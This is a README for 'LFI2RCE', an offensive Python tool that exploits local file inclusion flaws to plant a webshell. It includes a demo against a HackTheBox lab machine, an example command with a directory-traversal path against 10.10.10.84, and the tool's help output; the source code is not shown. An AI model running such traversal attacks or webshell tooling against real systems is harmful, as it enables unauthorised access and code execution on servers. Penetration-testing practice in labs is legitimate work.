 LFI2RCE
====

## Overview
LFI to RCE tool.
## Description
This tool is used to exploit an LFI vulnerability to obtain a Webshell.
If you give a vulnerable URL to LFI, it will try LFI of a common file.
## Demo
#### HackTheBox Poison.
![LFI-Poison](https://user-images.githubusercontent.com/56021519/81492511-44e78600-92d3-11ea-9ce5-1aade0b48f16.gif)
## Example
```txt
root@kali:/# python lfi2rce.py --linux --username charix 10.10.10.84 /browse.php?file=../../../../../..  --error "failed to open stream" -v
```
## Requirement
```txt
root@kali:/# pip3 install requests
```
## Usage
```txt
root@kali:/# python lfi2rce.py -h
                    _     _____ ___ ____  ____   ____ _____  
                   | |   |  ___|_ _|___ \|  _ \ / ___| ____| 
                   | |   | |_   | |  __) | |_) | |   |  _|   
                   | |___|  _|  | | / __/|  _ <| |___| |___  
                   |_____|_|   |___|_____|_| \_\____|_____| 
usage: lfi2rce.py [-h] [--nullbyte] [--ssl] [--dir-file DIR_FILE] [--windows]
                  [--linux] [--username USERNAME] [--debug] [--error ERROR]
                  [-v] [-k] [-o OUTDIR] [-s]
                  host path

brute force common file

positional arguments:
  host                  IP address to scan. Example: 127.0.0.1
  path                  Local file inclusion path. Example:
                        /browser.php?file=/../../../../..

optional arguments:
  -h, --help            show this help message and exit
  --nullbyte            terminate the url with null byte
  --ssl                 Use SSL for connection (https)
  --dir-file DIR_FILE   Input file for directory brute force
  --windows             Windows server
  --linux               linux server
  --username USERNAME   enter username if you know
  --debug               Complete setup without running against host
  --error ERROR         Enter Error Messgage. Example: No such file or
                        directory
  -v, --verbose         Verbose output
  -k, --verify-ssl      Verify SSL certificates
  -o OUTDIR, --outdir OUTDIR
                        Write output to this directory
  -s, --show-output     show results to screen
root@kali:/# 
```
